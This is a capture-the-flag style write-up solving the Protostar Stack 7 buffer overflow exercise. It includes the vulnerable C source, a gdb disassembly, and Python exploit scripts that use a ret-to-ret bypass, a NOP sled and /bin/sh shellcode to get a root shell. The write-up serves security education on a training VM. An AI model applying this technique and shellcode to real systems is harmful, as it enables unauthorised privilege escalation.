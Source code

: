 # PROTOSTAR : STACK 7
[Protostar:Stack7](https://exploit.education/protostar/stack-seven/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

Same as the previous level the **main()** calls **getpath()** where **buffer** variable is and **gets** which is vulnerable to Buffer Overflow takes **buffer** as input. **Stack Address Restriction** is applied in the program so we need to bypass it by returning to the function itself.

### **SOLUTION**
Below is the disassembly of the **getpath()** function.
```
user@protostar:/tmp$ gdb -q /opt/protostar/bin/stack7
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) set disassembly-flavor intel
(gdb) disass getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave  
0x08048544 <getpath+128>:       ret    
End of assembler dump.
(gdb) 
```
### **PYTHON SCRIPT**

```py
import struct
padding = "A"*80

ret = struct.pack("I",0x08048544)

print(padding + ret)
```

Executing the above script, you see I hit Breakpoint 1 once again because stack popped the **getpath()** address and returned to the function itself.

```
(gdb) b *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
(gdb) r < ./exploit
Starting program: /opt/protostar/bin/stack7 < ./exploit
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD�

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) x/4x $esp
0xbffff7ac:     0x08048544      0x08048500      0x00000000      0xbffff838
(gdb) si

Breakpoint 1, 0x08048544 in getpath () at stack7/stack7.c:24
24      in stack7/stack7.c
(gdb) 
```

Let's add some nop sleds and our shellcode and write our python exploit script and execute it to get the ROOT SHELL.

Below is the python script I am going to execute
```py
import struct
padding = "A"*80

ret = struct.pack("I",0x08048544)

eip = struct.pack("I",0xbffff7b0+20)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + eip + nop + shellcode)
```

After executing the exploit code we get the root shell.
```user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��PS���

whoami
root


```

